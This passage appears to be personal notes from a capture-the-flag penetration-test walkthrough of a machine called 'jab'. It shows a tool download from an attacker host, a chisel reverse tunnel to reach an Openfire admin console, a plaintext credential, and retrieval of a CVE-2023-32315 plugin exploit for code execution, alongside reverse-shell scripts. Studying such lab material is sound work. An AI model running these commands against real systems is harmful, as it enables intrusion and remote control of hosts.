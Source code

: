 ```bash
PS C:\users\svc_openfire\desktop>curl http://10.10.14.2:8000/chisel.exe -o chisel.exe                            e
PS C:\users\svc_openfire\desktop> 
PS C:\users\svc_openfire\desktop> dir


    Directory: C:\users\svc_openfire\desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        2/11/2025   9:10 AM        9760768 chisel.exe                                                            
-ar---        2/11/2025   4:45 AM             34 user.txt 

```

```bash
┌──(pwn㉿kali)-[~/windows-post-exp]
└─$ chisel server --reverse --port 8001
2025/02/11 09:11:45 server: Reverse tunnelling enabled
2025/02/11 09:11:45 server: Fingerprint QrKa2FPwqTx4nONigHRiSnh2hVP+7Pr4SnWo6x00fD8=
2025/02/11 09:11:45 server: Listening on http://0.0.0.0:8001

```

```bash
PS C:\users\svc_openfire\desktop> .\chisel client 10.10.14.2:8001 R:9090:127.0.0.1:9090

```

![[Pasted image 20250211171640.png]]
login
!@#$%^&*(1qazxsw
svc_openfire

after login there is uplaod plug in
-rce ??
https://github.com/miko550/CVE-2023-32315
```bash

https://github.com/miko550/CVE-2023-32315
┌──(pwn㉿kali)-[~/jab]
└─$ wget https://github.com/miko550/CVE-2023-32315/blob/main/openfire-management-tool-plugin.jar
--2025-02-11 09:20:49--  https://github.com/miko550/CVE-2023-32315/blob/main/openfire-management-tool-plugin.jar
Resolving github.com (github.com)... 140.82.121.3
Connecting to github.com (github.com)|140.82.121.3|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: ‘openfire-management-tool-plugin.jar’

openfire-management-tool-plu     [  <=>                                        ] 220.61K   699KB/s    in 0.3s    

2025-02-11 09:20:51 (699 KB/s) - ‘openfire-management-tool-plugin.jar’ saved [225900]

┌──(pwn㉿kali)-[~/jab]
└─$ ls
hashes.txt  Invoke-PowerShellTcpOneLine.ps1  openfire-management-tool-plugin.jar  shell.ps1  user.txt
```
